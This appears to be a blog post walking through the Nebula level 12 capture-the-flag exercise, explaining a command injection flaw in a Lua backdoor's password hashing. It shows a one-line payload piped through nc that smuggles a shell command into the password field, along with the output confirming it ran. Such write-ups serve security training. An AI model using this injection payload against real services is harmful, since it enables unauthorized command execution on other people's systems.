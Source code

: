 ```yaml
---
layout: post
title: "20xx-A1-Injection"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 12](http://exploit-exercises.com/nebula/level12) Agenda**: "There is a backdoor process listening on port 50001"

<center>
	<img src="/images/2015-04-30-20xx-a1-injection/d07c009c4db4f137254e650332c.jpg">
</center>
<br />
This one is pretty easy, it contains [injection flaw](https://www.owasp.org/index.php/Top_10_2013-A1-Injection). The vulnerability arises when a naked unhandled input string falls into "_hash_" function as an "_password_" argument. [io.popen](http://www.lua.org/manual/5.1/manual.html#pdf-io.popen) lua facility starts command sequence in a separated process, thereby we can provide injection:
{% highlight sh linenos %}
level12@nebula:~$ echo "0; getflag > /tmp/flag; echo 0" | nc localhost 50001
Password: Better luck next time
level12@nebula:~$ cat /tmp/flag 
You have successfully executed getflag on a target account
{% endhighlight %}
As well, in this manner we didn't break the execution chain. "_Voila_"!  
